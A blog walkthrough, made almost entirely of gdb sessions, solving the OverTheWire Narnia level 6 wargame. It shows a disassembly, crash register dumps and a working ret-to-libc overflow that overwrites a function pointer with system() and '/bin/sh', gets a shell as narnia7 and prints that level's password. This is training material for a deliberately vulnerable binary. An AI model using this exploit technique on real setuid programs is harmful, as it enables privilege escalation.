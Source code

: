 +++
title = "Over the wire - narnia06"
description = "Walk-through"
date ="2016-03-09"
draft = true
publishdate ="2016-03-09"
categories = ["security"]
tags = ["assembly", "linux", "binary"]
slug =  "over-the-wire-narnia-06"
project_url = "https://greyhat.dk/over-the-wire-narnia-06"
type = "post"
+++


http://www.cplusplus.com/reference/cstdlib/system/

narnia6@melinda:~$ gdb -q /narnia/narnia6
Reading symbols from /narnia/narnia6...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
   0x08048559 <+0>:	push   ebp
   0x0804855a <+1>:	mov    ebp,esp
   0x0804855c <+3>:	push   ebx
   0x0804855d <+4>:	and    esp,0xfffffff0
   0x08048560 <+7>:	sub    esp,0x30
   0x08048563 <+10>:	mov    DWORD PTR [esp+0x28],0x80483f0
   0x0804856b <+18>:	cmp    DWORD PTR [ebp+0x8],0x3
   0x0804856f <+22>:	je     0x8048592 <main+57>
   0x08048571 <+24>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048574 <+27>:	mov    eax,DWORD PTR [eax]
   0x08048576 <+29>:	mov    DWORD PTR [esp+0x4],eax
   0x0804857a <+33>:	mov    DWORD PTR [esp],0x8048750
   0x08048581 <+40>:	call   0x80483d0 <printf@plt>
   0x08048586 <+45>:	mov    DWORD PTR [esp],0xffffffff
   0x0804858d <+52>:	call   0x8048410 <exit@plt>
   0x08048592 <+57>:	mov    DWORD PTR [esp+0x2c],0x0
   0x0804859a <+65>:	jmp    0x80485de <main+133>
   0x0804859c <+67>:	mov    eax,ds:0x80499a0
   0x080485a1 <+72>:	mov    edx,DWORD PTR [esp+0x2c]
   0x080485a5 <+76>:	shl    edx,0x2
   0x080485a8 <+79>:	add    eax,edx
   0x080485aa <+81>:	mov    eax,DWORD PTR [eax]
   0x080485ac <+83>:	mov    DWORD PTR [esp],eax
   0x080485af <+86>:	call   0x8048420 <strlen@plt>
   0x080485b4 <+91>:	mov    edx,DWORD PTR ds:0x80499a0
   0x080485ba <+97>:	mov    ecx,DWORD PTR [esp+0x2c]
   0x080485be <+101>:	shl    ecx,0x2
   0x080485c1 <+104>:	add    edx,ecx
   0x080485c3 <+106>:	mov    edx,DWORD PTR [edx]
   0x080485c5 <+108>:	mov    DWORD PTR [esp+0x8],eax
   0x080485c9 <+112>:	mov    DWORD PTR [esp+0x4],0x0
   0x080485d1 <+120>:	mov    DWORD PTR [esp],edx
   0x080485d4 <+123>:	call   0x8048440 <memset@plt>
   0x080485d9 <+128>:	add    DWORD PTR [esp+0x2c],0x1
   0x080485de <+133>:	mov    eax,ds:0x80499a0
   0x080485e3 <+138>:	mov    edx,DWORD PTR [esp+0x2c]
   0x080485e7 <+142>:	shl    edx,0x2
   0x080485ea <+145>:	add    eax,edx
   0x080485ec <+147>:	mov    eax,DWORD PTR [eax]
   0x080485ee <+149>:	test   eax,eax
   0x080485f0 <+151>:	jne    0x804859c <main+67>
   0x080485f2 <+153>:	mov    DWORD PTR [esp+0x2c],0x3
   0x080485fa <+161>:	jmp    0x8048641 <main+232>
   0x080485fc <+163>:	mov    eax,DWORD PTR [esp+0x2c]
   0x08048600 <+167>:	lea    edx,[eax*4+0x0]
   0x08048607 <+174>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804860a <+177>:	add    eax,edx
   0x0804860c <+179>:	mov    eax,DWORD PTR [eax]
   0x0804860e <+181>:	mov    DWORD PTR [esp],eax
   0x08048611 <+184>:	call   0x8048420 <strlen@plt>
   0x08048616 <+189>:	mov    edx,DWORD PTR [esp+0x2c]
   0x0804861a <+193>:	lea    ecx,[edx*4+0x0]
   0x08048621 <+200>:	mov    edx,DWORD PTR [ebp+0xc]
   0x08048624 <+203>:	add    edx,ecx
   0x08048626 <+205>:	mov    edx,DWORD PTR [edx]
   0x08048628 <+207>:	mov    DWORD PTR [esp+0x8],eax
   0x0804862c <+211>:	mov    DWORD PTR [esp+0x4],0x0
   0x08048634 <+219>:	mov    DWORD PTR [esp],edx
   0x08048637 <+222>:	call   0x8048440 <memset@plt>
   0x0804863c <+227>:	add    DWORD PTR [esp+0x2c],0x1
   0x08048641 <+232>:	mov    eax,DWORD PTR [esp+0x2c]
   0x08048645 <+236>:	lea    edx,[eax*4+0x0]
   0x0804864c <+243>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804864f <+246>:	add    eax,edx
   0x08048651 <+248>:	mov    eax,DWORD PTR [eax]
   0x08048653 <+250>:	test   eax,eax
   0x08048655 <+252>:	jne    0x80485fc <main+163>
   0x08048657 <+254>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804865a <+257>:	add    eax,0x4
   0x0804865d <+260>:	mov    eax,DWORD PTR [eax]
   0x0804865f <+262>:	mov    DWORD PTR [esp+0x4],eax
   0x08048663 <+266>:	lea    eax,[esp+0x20]
   0x08048667 <+270>:	mov    DWORD PTR [esp],eax
   0x0804866a <+273>:	call   0x80483e0 <strcpy@plt>
   0x0804866f <+278>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048672 <+281>:	add    eax,0x8
   0x08048675 <+284>:	mov    eax,DWORD PTR [eax]
   0x08048677 <+286>:	mov    DWORD PTR [esp+0x4],eax
   0x0804867b <+290>:	lea    eax,[esp+0x18]
   0x0804867f <+294>:	mov    DWORD PTR [esp],eax
   0x08048682 <+297>:	call   0x80483e0 <strcpy@plt>
   0x08048687 <+302>:	mov    eax,DWORD PTR [esp+0x28]
   0x0804868b <+306>:	and    eax,0xff000000
   0x08048690 <+311>:	mov    ebx,eax
   0x08048692 <+313>:	call   0x804854d <get_sp>
   0x08048697 <+318>:	cmp    ebx,eax
   0x08048699 <+320>:	jne    0x80486a7 <main+334>
   0x0804869b <+322>:	mov    DWORD PTR [esp],0xffffffff
   0x080486a2 <+329>:	call   0x8048410 <exit@plt>
   0x080486a7 <+334>:	lea    eax,[esp+0x20]
   0x080486ab <+338>:	mov    DWORD PTR [esp],eax
   0x080486ae <+341>:	mov    eax,DWORD PTR [esp+0x28]
   0x080486b2 <+345>:	call   eax
   0x080486b4 <+347>:	mov    DWORD PTR [esp],0x1
   0x080486bb <+354>:	call   0x8048410 <exit@plt>
End of assembler dump.
(gdb) r $(python -c 'print "A"*8') $(python -c 'print "B"*8')
Starting program: /games/narnia/narnia6 $(python -c 'print "A"*8') $(python -c 'print "B"*8')

Program received signal SIGSEGV, Segmentation fault.
0x08048301 in ?? ()
(gdb) i reg
eax            0x8048300	134513408
ecx            0xffffd8ad	-10067
edx            0xffffd698	-10600
ebx            0x8000000	134217728
esp            0xffffd680	0xffffd680
ebp            0xffffd6b8	0xffffd6b8
esi            0x0	0
edi            0x80486b4	134514356
eip            0x8048301	0x8048301
eflags         0x10207	[ CF PF IF RF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99
(gdb) r $(python -c 'print "A"*12') $(python -c 'print "B"*12')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /games/narnia/narnia6 $(python -c 'print "A"*12') $(python -c 'print "B"*12')

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) i reg
eax            0x41414141	1094795585
ecx            0xffffd8a9	-10071
edx            0xffffd698	-10600
ebx            0x41000000	1090519040
esp            0xffffd67c	0xffffd67c
ebp            0xffffd6b8	0xffffd6b8
esi            0x0	0
edi            0x0	0
eip            0x41414141	0x41414141
eflags         0x10207	[ CF PF IF RF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99
(gdb) r $(python -c 'print "A"*8 + "\xd0\x3c\xe6\xf7"') $(python -c 'print "B"*8 + "/bin/sh")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /games/narnia/narnia6 $(python -c 'print "A"*8 + "\xd0\x3c\xe6\xf7"') $(python -c 'print "B"*8 + "/bin/sh")
/bin/bash: -c: line 0: unexpected EOF while looking for matching `''
/bin/bash: -c: line 1: syntax error: unexpected end of file
During startup program exited with code 1.
(gdb) r $(python -c 'print "A"*8 + "\xd0\x3c\xe6\xf7"') $(python -c 'print "B"*8 + "/bin/sh"')
Starting program: /games/narnia/narnia6 $(python -c 'print "A"*8 + "\xd0\x3c\xe6\xf7"') $(python -c 'print "B"*8 + "/bin/sh"')
$
$ exit
[Inferior 1 (process 7457) exited with code 01]
(gdb)
(gdb) quit
narnia6@melinda:~$
narnia6@melinda:~$
narnia6@melinda:~$
narnia6@melinda:~$
narnia6@melinda:~$
narnia6@melinda:~$
narnia6@melinda:~$
narnia6@melinda:~$ gdb -q /narnia/narnia6
Reading symbols from /narnia/narnia6...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
   0x08048559 <+0>:	push   ebp
   0x0804855a <+1>:	mov    ebp,esp
   0x0804855c <+3>:	push   ebx
   0x0804855d <+4>:	and    esp,0xfffffff0
   0x08048560 <+7>:	sub    esp,0x30
   0x08048563 <+10>:	mov    DWORD PTR [esp+0x28],0x80483f0
   0x0804856b <+18>:	cmp    DWORD PTR [ebp+0x8],0x3
   0x0804856f <+22>:	je     0x8048592 <main+57>
   0x08048571 <+24>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048574 <+27>:	mov    eax,DWORD PTR [eax]
   0x08048576 <+29>:	mov    DWORD PTR [esp+0x4],eax
   0x0804857a <+33>:	mov    DWORD PTR [esp],0x8048750
   0x08048581 <+40>:	call   0x80483d0 <printf@plt>
   0x08048586 <+45>:	mov    DWORD PTR [esp],0xffffffff
   0x0804858d <+52>:	call   0x8048410 <exit@plt>
   0x08048592 <+57>:	mov    DWORD PTR [esp+0x2c],0x0
   0x0804859a <+65>:	jmp    0x80485de <main+133>
   0x0804859c <+67>:	mov    eax,ds:0x80499a0
   0x080485a1 <+72>:	mov    edx,DWORD PTR [esp+0x2c]
   0x080485a5 <+76>:	shl    edx,0x2
   0x080485a8 <+79>:	add    eax,edx
   0x080485aa <+81>:	mov    eax,DWORD PTR [eax]
   0x080485ac <+83>:	mov    DWORD PTR [esp],eax
   0x080485af <+86>:	call   0x8048420 <strlen@plt>
   0x080485b4 <+91>:	mov    edx,DWORD PTR ds:0x80499a0
   0x080485ba <+97>:	mov    ecx,DWORD PTR [esp+0x2c]
   0x080485be <+101>:	shl    ecx,0x2
   0x080485c1 <+104>:	add    edx,ecx
   0x080485c3 <+106>:	mov    edx,DWORD PTR [edx]
   0x080485c5 <+108>:	mov    DWORD PTR [esp+0x8],eax
   0x080485c9 <+112>:	mov    DWORD PTR [esp+0x4],0x0
   0x080485d1 <+120>:	mov    DWORD PTR [esp],edx
   0x080485d4 <+123>:	call   0x8048440 <memset@plt>
   0x080485d9 <+128>:	add    DWORD PTR [esp+0x2c],0x1
   0x080485de <+133>:	mov    eax,ds:0x80499a0
   0x080485e3 <+138>:	mov    edx,DWORD PTR [esp+0x2c]
   0x080485e7 <+142>:	shl    edx,0x2
   0x080485ea <+145>:	add    eax,edx
   0x080485ec <+147>:	mov    eax,DWORD PTR [eax]
   0x080485ee <+149>:	test   eax,eax
   0x080485f0 <+151>:	jne    0x804859c <main+67>
   0x080485f2 <+153>:	mov    DWORD PTR [esp+0x2c],0x3
   0x080485fa <+161>:	jmp    0x8048641 <main+232>
   0x080485fc <+163>:	mov    eax,DWORD PTR [esp+0x2c]
   0x08048600 <+167>:	lea    edx,[eax*4+0x0]
   0x08048607 <+174>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804860a <+177>:	add    eax,edx
   0x0804860c <+179>:	mov    eax,DWORD PTR [eax]
   0x0804860e <+181>:	mov    DWORD PTR [esp],eax
   0x08048611 <+184>:	call   0x8048420 <strlen@plt>
   0x08048616 <+189>:	mov    edx,DWORD PTR [esp+0x2c]
   0x0804861a <+193>:	lea    ecx,[edx*4+0x0]
   0x08048621 <+200>:	mov    edx,DWORD PTR [ebp+0xc]
   0x08048624 <+203>:	add    edx,ecx
   0x08048626 <+205>:	mov    edx,DWORD PTR [edx]
   0x08048628 <+207>:	mov    DWORD PTR [esp+0x8],eax
---Type <return> to continue, or q <return> to quit---
   0x0804862c <+211>:	mov    DWORD PTR [esp+0x4],0x0
   0x08048634 <+219>:	mov    DWORD PTR [esp],edx
   0x08048637 <+222>:	call   0x8048440 <memset@plt>
   0x0804863c <+227>:	add    DWORD PTR [esp+0x2c],0x1
   0x08048641 <+232>:	mov    eax,DWORD PTR [esp+0x2c]
   0x08048645 <+236>:	lea    edx,[eax*4+0x0]
   0x0804864c <+243>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804864f <+246>:	add    eax,edx
   0x08048651 <+248>:	mov    eax,DWORD PTR [eax]
   0x08048653 <+250>:	test   eax,eax
   0x08048655 <+252>:	jne    0x80485fc <main+163>
   0x08048657 <+254>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804865a <+257>:	add    eax,0x4
   0x0804865d <+260>:	mov    eax,DWORD PTR [eax]
   0x0804865f <+262>:	mov    DWORD PTR [esp+0x4],eax
   0x08048663 <+266>:	lea    eax,[esp+0x20]
   0x08048667 <+270>:	mov    DWORD PTR [esp],eax
   0x0804866a <+273>:	call   0x80483e0 <strcpy@plt>
   0x0804866f <+278>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048672 <+281>:	add    eax,0x8
   0x08048675 <+284>:	mov    eax,DWORD PTR [eax]
   0x08048677 <+286>:	mov    DWORD PTR [esp+0x4],eax
   0x0804867b <+290>:	lea    eax,[esp+0x18]
   0x0804867f <+294>:	mov    DWORD PTR [esp],eax
   0x08048682 <+297>:	call   0x80483e0 <strcpy@plt>
   0x08048687 <+302>:	mov    eax,DWORD PTR [esp+0x28]
   0x0804868b <+306>:	and    eax,0xff000000
   0x08048690 <+311>:	mov    ebx,eax
   0x08048692 <+313>:	call   0x804854d <get_sp>
   0x08048697 <+318>:	cmp    ebx,eax
   0x08048699 <+320>:	jne    0x80486a7 <main+334>
   0x0804869b <+322>:	mov    DWORD PTR [esp],0xffffffff
   0x080486a2 <+329>:	call   0x8048410 <exit@plt>
   0x080486a7 <+334>:	lea    eax,[esp+0x20]
   0x080486ab <+338>:	mov    DWORD PTR [esp],eax
   0x080486ae <+341>:	mov    eax,DWORD PTR [esp+0x28]
   0x080486b2 <+345>:	call   eax
   0x080486b4 <+347>:	mov    DWORD PTR [esp],0x1
   0x080486bb <+354>:	call   0x8048410 <exit@plt>
End of assembler dump.
(gdb) break system
Function "system" not defined.
Make breakpoint pending on future shared library load? (y or [n]) y
Breakpoint 1 (system) pending.
(gdb) r $(python -c 'print "A"*8') $(python -c 'print "B"*8')
Starting program: /games/narnia/narnia6 $(python -c 'print "A"*8') $(python -c 'print "B"*8')

Program received signal SIGSEGV, Segmentation fault.
0x08048301 in ?? ()
(gdb) i reg
eax            0x8048300	134513408
ecx            0xffffd8ad	-10067
edx            0xffffd698	-10600
ebx            0x8000000	134217728
esp            0xffffd680	0xffffd680
ebp            0xffffd6b8	0xffffd6b8
esi            0x0	0
edi            0x80486b4	134514356
eip            0x8048301	0x8048301
eflags         0x10207	[ CF PF IF RF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99
(gdb) r $(python -c 'print "A"*12') $(python -c 'print "B"*12')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /games/narnia/narnia6 $(python -c 'print "A"*12') $(python -c 'print "B"*12')

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) i reg
eax            0x41414141	1094795585
ecx            0xffffd8a9	-10071
edx            0xffffd698	-10600
ebx            0x41000000	1090519040
esp            0xffffd67c	0xffffd67c
ebp            0xffffd6b8	0xffffd6b8
esi            0x0	0
edi            0x0	0
eip            0x41414141	0x41414141
eflags         0x10207	[ CF PF IF RF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99
(gdb) break system
Note: breakpoint 1 also set at pc 0xf7e63cd0.
Breakpoint 2 at 0xf7e63cd0
(gdb) r $(python -c 'print "A"*8 + "\xd0\x3c\xe6\xf7"') $(python -c 'print "B"*8 + "/bin/sh"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /games/narnia/narnia6 $(python -c 'print "A"*8 + "\xd0\x3c\xe6\xf7"') $(python -c 'print "B"*8 + "/bin/sh"')

Breakpoint 1, 0xf7e63cd0 in system () from /lib32/libc.so.6
(gdb) c
Continuing.
$ exit
[Inferior 1 (process 8155) exited with code 01]
(gdb) quit
narnia6@melinda:~$ /narnia/narnia6 $(python -c 'print "A"*8 + "\xd0\x3c\xe6\xf7"') $(python -c 'print "B"*8 + "/bin/sh"')
$ whoami
narnia7
$ cat /etc/narnia_pass/narnia7
ahkiaziphu
